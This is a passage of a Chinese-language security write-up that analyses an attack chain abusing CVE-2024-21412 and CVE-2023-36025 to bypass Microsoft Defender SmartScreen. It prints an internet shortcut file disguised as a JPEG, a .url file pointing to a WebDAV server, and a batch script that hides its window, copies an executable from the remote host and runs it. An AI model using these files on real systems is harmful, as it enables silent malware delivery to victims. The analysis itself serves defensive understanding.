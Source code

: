参数将默认的互联网快捷方式文件更改为图像图标，以进一步欺骗用户。  
  
photo_2024-02-28.jpg  
.url  
内容和伪装效果如下：  
  
 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibThNCIOkldjvzDpb47EYK6TotuhoqoLLOqz17btzhLxNCZQSmeQg0ibEPb8kYLGMaPHBxoGvgfePQA/640?wx_fmt=png&from=appmsg "")  
  
  
文件中的  
的URL  
参数指向托管在WebDAV  
服务器上的另一个Internet  
快捷方式文件。  
而  
test.url  
文件中是  
先前修补的Microsoft Defender SmartScreen  
绕过  
漏洞  
（CVE-2023-36025  
）的  
利用逻辑：  
```
[InternetShortcut]
URL=file://10.xx.xx.xx@8077/webdav/cxm.zip/cxm.cmd
IDList=
HotKey=0
[{000214AO-0000-0000-c000-000000000046}]
Prop3=19,9
```  
  
cmd  
文件内容如下，从远程  
WebDAV  
服务器  
copy  
木马文件并执行：  
```
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
copy /b \\10.xx.xx.xx@8077\webdav\test.exe %TEMP%\test.exe
cd %TEMP%
cmd /c test.exe
exit
```  
  
这段批处理脚本还有一个  
技巧，  
第二行  
的作用是检测是否设置了 IS_MINIMIZED   
环境变量。如果没有，就会最小化启动同一个批处理文件的新实例，并在新窗口中执行其余的脚本，然后关闭原始的命令提示符窗口。这样，用户看到的批处理文件执行效果是它以最小化的状态在执行。  
  
通过双击第一个  
伪装成JPEG  
的互联网快捷方式  
文件  
，就可以利用CVE-2024-21412  
绕过  
Microsoft Defender SmartScreen  
，并  
开始控制受害者机器  
。  
  